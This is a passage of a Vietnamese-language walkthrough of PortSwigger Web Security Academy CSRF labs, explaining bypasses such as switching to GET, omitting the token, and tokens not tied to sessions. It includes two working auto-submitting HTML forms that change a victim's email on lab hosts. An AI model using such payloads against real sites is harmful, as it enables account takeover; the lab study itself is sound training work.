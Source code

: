 Bỏ đi thì sẽ báo lỗi là rõ:

![image](https://user-images.githubusercontent.com/104350480/224540815-5ce6caf3-f646-4952-8451-7710a96485be.png)

Mà bài này thì chuyển về phương thức GET lại không: 

![image](https://user-images.githubusercontent.com/104350480/224540823-03d251b0-c4b5-4c5e-ac72-d13dbb1f39bd.png)

Viết form đơn giản gửi qua phần exploit: 

![image](https://user-images.githubusercontent.com/104350480/224540834-1e3e83b1-b324-42a2-b82e-2310600e2213.png)

```
<form id='csrf' action='https://0ac90074044080ffc16121c5000c0026.web-security-academy.net/my-account/change-email' method='GET'>
<input type='hidden' name='email' value='manhhuy08112002@gmailcom'>
<input type='submit'>
</form>
<script>
document.getElementById('csrf').submit();

</script>

```

### [2. CSRF where token validation depends on token being present](https://portswigger.net/web-security/csrf/bypassing-token-validation/lab-token-validation-depends-on-token-being-present)<a name='pcsrf3'></a>

- Một số ứng dụng xác thực csrf token khi nó xuất hiện nhưng bỏ qua xác thực nếu mã thông báo bị bỏ qua, ta vẫn dùng cái trên được luôn, vì đăng nào bỏ csrf cũng được: 

```
<form id='csrf' action='https://0ab500c2030dc84fc0f0598d000200a1.web-security-academy.net/my-account/change-email' method='POST'>
<input type='hidden' name='email' value='manhhuy2002@gmail.com'>
<input type='submit'>
</form>
<script>
document.getElementById('csrf').submit();
</script> 

```
### [3. CSRF where token is not tied to user session](https://portswigger.net/web-security/csrf/bypassing-token-validation/lab-token-not-tied-to-user-session) <a name='pcsrf4'></a>

Tình huống của bài lab này là ứng dụng web nó không hề xác thực xem csrf trong request có thuộc về 1 session của 1 user liên quan hay không. Việc này có thể hình dung là bên server tạo 1 kho chứa các token được sinh ra, miễn là token được lấy từ trong này ra thì server sẽ coi nó là hợp lệ. Với bài lab này ta sẽ chỉ cần lấy thêm cái csrf token được cấp phát sẵn.
